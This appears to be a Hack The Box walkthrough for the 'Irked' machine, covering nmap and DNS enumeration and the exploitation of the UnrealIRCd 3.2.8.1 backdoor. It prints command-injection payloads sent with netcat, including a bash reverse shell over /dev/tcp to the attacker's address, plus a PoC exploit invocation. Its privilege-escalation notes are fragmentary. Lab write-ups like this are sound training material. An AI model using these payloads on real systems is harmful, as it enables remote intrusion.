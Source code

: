 # Irked Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

### Nmap:

``nmap -p- -sV -oA fullirked 10.10.10.117``

### PORT      STATE SERVICE VERSION

> 22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
> 
> 80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
> 
> 111/tcp   open  rpcbind 2-4 (RPC #100000)
> 
> 6697/tcp  open  irc     UnrealIRCd
> 
> 8067/tcp  open  irc     UnrealIRCd
> 
> 34714/tcp open  status  1 (RPC #100024)
> 
> 65534/tcp open  irc     UnrealIRCd

# ${{\color{purple}Initial Foothold}}\ $


### - ``gobuster dns -d irked.htb -t 25 -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt``
### - ``curl http://10.10.10.117/irked.jpg -o irked.jpg``
### - ``exiftool irked.jpg`` modification Date/Time : 2018
### - IRC is almost working !
### - ``vi /etc/hosts irked.htb``


# ${{\color{purple}Exploitation}}\ $

- Google RFC IRC to find out how to chat with the service.
> Watch the Connections Registration section 

``nc -nvvvv 10.10.10.117 6697``

``PASS blabla``

``NICK blabla``

``USER blabla blabla comment :haha``

![irked2](https://user-images.githubusercontent.com/123066149/218293454-a38c0587-14e4-4e81-a2da-50810f96a917.PNG)

There is a backdor on UnrealIRCd 3.2.8.1 I test it with my hands :

`` tcpdump -i tun0 icmp ``

`` echo "AB; ping -c 1 10.10.X.X" | nc 10.10.10.117 6697``

![image](https://user-images.githubusercontent.com/123066149/218293806-b39334d6-eef7-440d-ac51-dfeea706df36.png)

``searchsploit UnrealIRCd 3.2.8.1``

### I had tested the exploit in perl and it didn't work

### So I looked for a poc of the metasploit exploit 

- Google UnrealIRCd 3.2.8.1 - Backdoor Command Execution poc github

``python exploit.py -payload python 10.10.10.117 6697``

### or 

``echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.X.X/444 0>&1'" | nc 10.10.10.117 6697``


# ${{\color{purple}Privilege Escalation}}\ $

cat .bash history | less
LinEnum.sh

# ${{\color{purple}Points of Improvement}}\ $
















